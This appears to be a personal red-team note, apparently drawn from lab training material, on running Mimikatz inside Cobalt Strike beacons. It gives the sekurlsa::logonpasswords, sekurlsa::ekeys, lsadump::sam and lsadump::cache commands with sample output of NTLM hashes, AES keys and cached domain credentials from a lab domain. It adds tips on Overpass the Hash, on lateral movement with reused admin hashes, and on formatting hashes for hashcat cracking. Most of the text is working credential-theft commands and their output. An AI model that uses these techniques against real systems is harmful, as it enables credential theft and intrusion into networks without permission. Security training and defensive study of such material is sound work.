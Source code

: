 ```yaml
---
creation date: September 23rd 2022
last modified date: September 23rd 2022
aliases: []
tags: #🧰
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #🧰  

# [[Mimikatz]]  
___

## Description:
Mimikatz is infamous for being able to dump plaintext passwords or password hashes from memory.

This requires local admin privileges on the host.

## Installation
Buillt into CobaltStike



## Commands
Cobalt Strike also has a short-hand command for this called `logonpasswords`.

After dumping these credentials, go to **View > Credentials** to see a copy of them. Some of Cobalt Strike workflows (such as the right-click **Beacon > Access > MakeToken** dialog) can pull from this data model.


```
beacon> mimikatz sekurlsa::logonpasswords

Authentication Id : 0 ; 113277 (00000000:0001ba7d)
Session           : Interactive from 1
User Name         : jking
Domain            : DEV
Logon Server      : DC-2
Logon Time        : 5/24/2021 9:00:11 AM
SID               : S-1-5-21-3263068140-2042698922-2891547269-1122
    msv :   
     [00000003] Primary
     * Username : jking
     * Domain   : DEV
     * NTLM     : 4ffd3eabdce2e158d923ddec72de979e
     * SHA1     : b081158da72409badae7b849d12097f2fa02c119
     * DPAPI    : 4180363cf5b2faa2130098adcb3a1db4
    tspkg : 
    wdigest :   
     * Username : jking
     * Domain   : DEV
     * Password : (null)
    kerberos :  
     * Username : jking
     * Domain   : DEV.CYBERBOTIC.IO
     * Password : (null)
    ssp :   
    credman :

```


### eKeys

This Mimikatz module will dump Kerberos encryption keys. Since most Windows services choose to use Kerberos over NTLM, leveraging these over NTLM hashes makes more sense for blending into normal authentication traffic.


The **aes256_hmac** and **aes128_hmac** (if available) fields are what we want to use with **Overpass the Hash**. These AES keys are not automatically populated into the Credential data model, but they can be added manually (**View > Credentials > Add**).

```
beacon> mimikatz sekurlsa::ekeys

Authentication Id : 0 ; 113277 (00000000:0001ba7d)
Session           : Interactive from 1
User Name         : jking
Domain            : DEV
Logon Server      : DC-2
Logon Time        : 5/24/2021 9:00:11 AM
SID               : S-1-5-21-3263068140-2042698922-2891547269-1122

     * Username : jking
     * Domain   : DEV.CYBERBOTIC.IO
     * Password : (null)
     * Key List :
       aes256_hmac       a561a175e395758550c9123c748a512b4b5eb1a211cbd12a1b139869f0c94ec1
       rc4_hmac_nt       4ffd3eabdce2e158d923ddec72de979e
       rc4_hmac_old      4ffd3eabdce2e158d923ddec72de979e
       rc4_md4           4ffd3eabdce2e158d923ddec72de979e
       rc4_hmac_nt_exp   4ffd3eabdce2e158d923ddec72de979e
       rc4_hmac_old_exp  4ffd3eabdce2e158d923ddec72de979e
```

### SAM (Security Account Manager)
The Security Account Manager (SAM) database holds the NTLM hashes of local accounts only. These can be extracted with `lsadump::sam`. If a common local admin account is being used with the same password across an entire environment, this can make it very trivial to move laterally.

```
beacon> mimikatz lsadump::sam

Domain : SRV-1
SysKey : 5d11b46a92921b8775ca574306ba5355
Local SID : S-1-5-21-4124990477-354564332-720757739

SAMKey : fb5c3670b47e5ecae21f328b12d3103c

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 12a427a6fdf69be4917d30afc633f6fd

RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount
```

### Domain Cached Credentials
Domain Cached Credentials were designed for instances where domain credentials are required to logon to a machine, even whilst it's disconnected from the domain (think of a roaming laptop for example). The local device caches the domain credentials so authentication can happen locally, but these can be extracted and cracked offline to recover plaintext credentials.

Unfortunately, the hash format is not NTLM.

```
beacon> mimikatz lsadump::cache

Domain : SRV-1
SysKey : 5d11b46a92921b8775ca574306ba5355

Local name : SRV-1 ( S-1-5-21-4124990477-354564332-720757739 )
Domain name : DEV ( S-1-5-21-3263068140-2042698922-2891547269 )
Domain FQDN : dev.cyberbotic.io

Policy subsystem is : 1.14
LSA Key(s) : 1, default {2f242789-b6b3-dc42-0903-3e03acab0bc2}
  [00] {2f242789-b6b3-dc42-0903-3e03acab0bc2} c09ac7dd10900648ef451c40c317f8311a40184b60ca28ae78c9036315bf8983

* Iteration is set to default (10240)

[NL$1 - 2/25/2021 1:07:37 PM]
RID       : 00000460 (1120)
User      : DEV\bfarmer
MsCacheV2 : 98e6eec9c0ce004078a48d4fd03f2419

[NL$2 - 5/17/2021 2:00:46 PM]
RID       : 0000046e (1134)
User      : DEV\svc_mssql
MsCacheV2 : 3f903860f7b6861a702eb9d6509d9da6

[NL$3 - 5/17/2021 2:00:50 PM]
RID       : 00000462 (1122)
User      : DEV\jking
MsCacheV2 : 673e2fe26e26e79c58379168b79890f6
```

To crack these with [hashcat](https://hashcat.net/hashcat/), we need to transform them into the expected format. The [example hashes page](https://hashcat.net/wiki/doku.php?id=example_hashes) shows us it should be `$DCC2$<iterations>#<username>#<hash>`.




___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 23rd 2022 (04:06 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
